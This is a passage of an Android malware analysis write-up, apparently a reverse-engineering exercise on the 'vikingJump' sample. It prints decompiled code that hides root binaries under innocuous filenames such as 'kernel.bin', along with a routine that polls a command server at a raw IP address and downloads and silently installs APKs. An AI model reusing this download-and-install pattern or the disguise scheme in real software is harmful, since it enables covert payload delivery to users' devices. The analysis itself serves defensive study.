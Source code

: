 
### What is the Meaning of The Random Names in Shared Preferences?
From the analysis of `UtilActivity.onCreate()` above, we see there is a call to `SetRandomNames()`.

Looking deeper into `UtilActivity.InstallAsRoot()` shows that `aps_exec` and `aps_exec_watch_dog` will be installed with a random name from the following list taken from `Utilities`:

```
private static java.lang.String[] names = new java.lang.String[]{"update.dat", "settings.bin", "update.bin", 
"settings.dat", "kernel.bin", "core.bin", "core.sys", "hot_fix.dat", "android.bin", 
"sys.bin", "inet.dat", "wifi.bin", "fix.bin", "sys_driver.sys", "lock.dat"};
```

Afterward, the chosen name will be saved in shared preferences under `com.Jump.vikingJump_preferences.xml`. This actually explains the names we found earlier during dynamic analysis.


### What is the output of `http://176.9.138.114:7777/ecspectapatronum/`?
`UtilActivity.InstallAsNonRoot()` runs a runnable background thread which will call `UtilActivity.InstallTaskHandler()`.

The purpose of this function is to make a GET request to `http://176.9.138.114:7777/ecspectapatronum/` and fetch a JSON array:

```java
/** ANAL: SystemService.InstallTaskHandler()
 *  - Sleep 3 minutes
 *  - Make a GET reqeust to http://176.9.138.114:7777/ecspectapatronum/ and fetch a JSON array of app names and download urls
 *  - Get a list of installed apps
 *  - Run through the fetched JSON array
 *      - Check that the app is not already installed
 *      - Download -> install -> delete the APK
 */

private void InstallTaskHandler() {
    java.lang.Thread.sleep(180000); 

    while (true) {
        Java.lang.String r = "http://176.9.138.114:7777/ecspectapatronum/";
        org.json.JSONArray jsonApps = new org.json.JSONObject(BytesToUTF8String(HttpGet(r))).getJSONArray("t");

        this._installedApps = GetInstalledApps();
        for (int i = 0; i < jsonApps.length(); i++) {
            org.json.JSONObject appJson = jsonApps.getJSONObject(i);
            Java.lang.String api        = appJson.getString("api");
            java.lang.String bundle     = appJson.getString("bid");
            java.lang.String id         = appJson.getString("id");
            java.lang.String url        = appJson.getString("url");
            java.lang.String hash       = appJson.getString("hash");

            if (IsAppInstalled(bundle)) {
                continue;
            }
            this._installTasks.add(new com.p003fa.p004c.SystemService.InstallTask(id, bundle, url, hash, api));
            ...
            ...
        }
    }
}
```
